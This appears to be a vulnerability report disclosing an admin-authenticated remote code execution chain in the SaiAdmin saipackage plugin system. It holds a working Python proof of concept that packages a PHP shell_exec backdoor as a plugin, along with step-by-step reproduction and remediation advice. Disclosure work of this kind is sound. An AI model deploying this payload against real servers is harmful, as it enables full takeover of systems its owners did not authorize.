






# SaiAdmin Saipackage Remote Code Execution Vulnerability Report

## Vulnerability Summary

| Item | Details |
|------|---------|
| Vulnerability Name | SaiAdmin Saipackage Plugin System Remote Code Execution |
| Vulnerability Type | Remote Code Execution (RCE) |
| CWE ID | CWE-94 (Code Injection) |
| Affected Component | saithink/saipackage (Webman Plugin Manager) |
| Affected Versions | saipackage v1.0.x ~ v1.1.1; saiadmin v5.0.x ~ v5.1.8 |
| Severity | Critical |
| CVSS v3.1 | 9.8 (AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H) |
| Prerequisites | Admin JWT token required |
| Report Date | 2026-06-23 |
| Reported By | Xiaobu |

---

## 1. Vulnerability Description

SaiAdmin is a PHP admin management system built on the Webman framework. Saipackage is its built-in plugin management module. This module contains a complete remote code execution attack chain: an attacker deploys malicious PHP code to the server via the plugin upload interface, then triggers execution through the scheduled task system, achieving arbitrary system command execution.

**Project Repositories**:

| Platform | URL | Stars |
|----------|-----|-------|
| GitHub | https://github.com/saithink/SaiAdmin | 283 |
| Gitee | https://gitee.com/saigroup/saiadmin | 273 |

---

## 2. Vulnerable Files

| File Path | Attack Step | Description |
|-----------|-------------|-------------|
| `plugin/saipackage/app/logic/InstallLogic.php` | Upload/Install/Uninstall | `upload()` uses user-supplied `appName` without path validation; `install()` copies PHP files from ZIP to `webman/plugin/`; `uninstall()` has path traversal allowing arbitrary directory deletion |
| `plugin/saipackage/service/Server.php` | Plugin Install | `importSql()` executes `install.sql` from ZIP directly without filtering |
| `plugin/saiadmin/app/logic/tool/CrontabLogic.php` | Task Execution | `type=3` class task has no class name whitelist; instantiates arbitrary PHP classes and calls `run()` method |
| `webman/support/bootstrap.php` | Plugin Auto-Loading | Automatically scans `webman/plugin/` directory at startup and loads all plugins, activating malicious PHP files |

---

## 3. Vulnerability Details

### 3.1 Plugin Upload — Arbitrary PHP File Write

**Endpoint**: `POST /app/saipackage/install/upload`

The server receives a user-uploaded ZIP package, extracts it, reads `info.ini` to get the plugin name, and stores files to `runtime/saipackage/<appName>/`.

**Flaws**:
- ZIP packages can contain arbitrary `.php` files with no file type filtering
- The `app` field from `info.ini` is used directly for directory naming without format validation
- No code signing or integrity verification mechanism

```php
// plugin/saipackage/app/logic/InstallLogic.php
public function upload(mixed $file): array {
    $copyToDir = Filesystem::unzip($copyTo);       // Extract user ZIP
    $info = Server::getIni($copyToDir);             // Read info.ini
    $this->appName = $info['app'];                  // Used directly, no validation
    rename($copyToDir, $this->appDir);              // Store to runtime directory
}
```

### 3.2 Plugin Installation — PHP Deployment + Server Restart

**Endpoint**: `POST /app/saipackage/install/install`

The installation copies all files (including `.php`) from `plugin/<appName>/` in the extracted ZIP to `webman/plugin/<appName>/`, then sends a SIGUSR1 signal to restart Webman. Webman automatically executes `composer dump-autoload` on restart, loading the new PHP files.

```php
public function install(): array {
    $pathRelation = $this->getAllowedPath();
    Server::installByRelation($pathRelation);       // Copy PHP to webman/plugin/
    Server::restart();                              // SIGUSR1 → webman restart
}
```

Webman automatically scans and loads all plugins from `webman/plugin/` at startup:

```php
// webman/support/bootstrap.php
$directory = base_path() . '/plugin';
foreach (Util::scanDir($directory) as $path) {
    if (is_dir($path = "$path/config")) {
        $paths[] = $path;
    }
}
Route::load($paths);
```

### 3.3 Scheduled Task — Arbitrary Class Instantiation (RCE Trigger)

**Endpoints**: `POST /tool/crontab/save` + `POST /tool/crontab/run`

The scheduled task system supports `type=3` (class task), which can target any PHP class. When executed, it instantiates the class and calls its `run()` method, passing the `parameter` field as an argument.

```php
// plugin/saiadmin/app/logic/tool/CrontabLogic.php
case 3:
    $class_name = $info->target;                    // User input, no whitelist
    $class = new $class_name;                       // Instantiate arbitrary class
    if (method_exists($class, 'run')) {
        $return = $class->run($info->parameter);    // Pass user parameter
    }
```

**Flaw**: The `target` field has no class name whitelist validation and can reference any namespaced PHP class.

---

## 4. CVSS v3.1 Scoring

| Metric | Value | Rationale |
|--------|-------|-----------|
| Attack Vector (AV) | Network | Exploitable remotely over the network |
| Attack Complexity (AC) | Low | One upload + one execution completes the chain |
| Privileges Required (PR) | High | Requires admin JWT token |
| User Interaction (UI) | None | No user interaction required |
| Scope (S) | Changed | Impact extends from saipackage to the entire server |
| Confidentiality (C) | High | Can read all files and databases |
| Integrity (I) | High | Can modify/delete arbitrary files |
| Availability (A) | High | Can delete critical directories causing DoS |

**Overall Score: 9.8 (Critical)**

---

## 5. Remediation Recommendations

1. **Plugin Upload Content Validation**: Scan uploaded PHP files for dangerous functions (`shell_exec`, `system`, `exec`, `passthru`, `popen`, `proc_open`); implement plugin signature verification
2. **Crontab Class Whitelist**: Restrict `type=3` to only instantiate classes implementing a specific interface (e.g., `JobInterface`)
3. **Path Validation**: Validate `appName` parameter with `realpath()` to prevent path traversal

---

## 6. Test Environment

| Item | Details |
|------|---------|
| Operating System | Linux |
| PHP Version | 8.2.31 |
| Webman Version | 2.x |
| SaiAdmin Version | v5.1.8 |
| Saipackage Version | v1.1.1 |
| Test Server | http://192.168.75.135:8787 |
| Test Account | admin / 123456 |

---

## 7. Reproduction Steps

1. Deploy the project and complete admin login: https://gitee.com/saigroup/saiadmin-boot



2. Click `Tools` -> `Plugin Installation` -> `Upload Plugin Package`



3. Upload the malicious file generated by the following POC:

~~~python
import io, zipfile

plugin_name = "rce_poc_12345"
class_name = "Runner"

ini_content = (
    f"app = {plugin_name}\ntitle = RCE\nabout = poc\n"
    f"author = audit\nversion = 1.0.0\nstate = 0\n"
)

php_code = (
    "<?php\n"
    f"namespace plugin\\{plugin_name};\n"
    f"class {class_name}\n"
    "{\n"
    "    public function run($a)\n"
    "    {\n"
    '        $d = json_decode($a, true);\n'
    '        $cmd = $d["cmd"] ?? "id";\n'
    '        $out = @shell_exec($cmd . " 2>&1");\n'
    '        return $out ?: "[no output]";\n'
    "    }\n"
    "}\n"
)

with zipfile.ZipFile("rce_poc.zip", "w", zipfile.ZIP_DEFLATED) as z:
    z.writestr("info.ini", ini_content)
    z.writestr(f"plugin/{plugin_name}/{class_name}.php", php_code)
    z.writestr("install.sql", "-- noop\n")
~~~

4. After upload, obtain the plugin name `rce_poc_12345`, then click `Install`



5. Click `Scheduled Tasks` in the left menu, then click `Add`



6. Create a new scheduled task with the following details:

| Field | Value |
|-------|-------|
| Task Name | Any name |
| Task Type | Class Task |
| Schedule Rule | Default |
| Target | plugin\\rce_poc_12345\\Runner |
| Parameter | {"cmd":"id"} |
| Status | Normal |



7. Click `Execute Once`, then view the `Log`. RCE is successful.



---

## 8. Vendor Notification Timeline

| Date | Event |
|------|-------|
| 2026-06-18 | Vulnerability analysis completed, RCE attack chain confirmed |
| 2026-06-19 | Automated PoC scripts developed |
| 2026-06-20 | Manual reproduction verification completed |
| 2026-06-23 | Vulnerability report submitted |

---

## 9. References

| Link | Description |
|------|-------------|
| https://github.com/saithink/SaiAdmin | Project GitHub Repository |
| https://gitee.com/saigroup/saiadmin | Project Gitee Repository |
| https://gitee.com/saigroup/saiadmin-boot | Project Source Code Repository |
| https://www.cvedetails.com/cve/CWE-94/ | CWE-94: Code Injection |

---

## 10. Disclaimer

This report is intended solely for authorized security testing and vulnerability research. All testing was performed in an authorized internal test environment. Unauthorized testing of other people's systems is illegal.

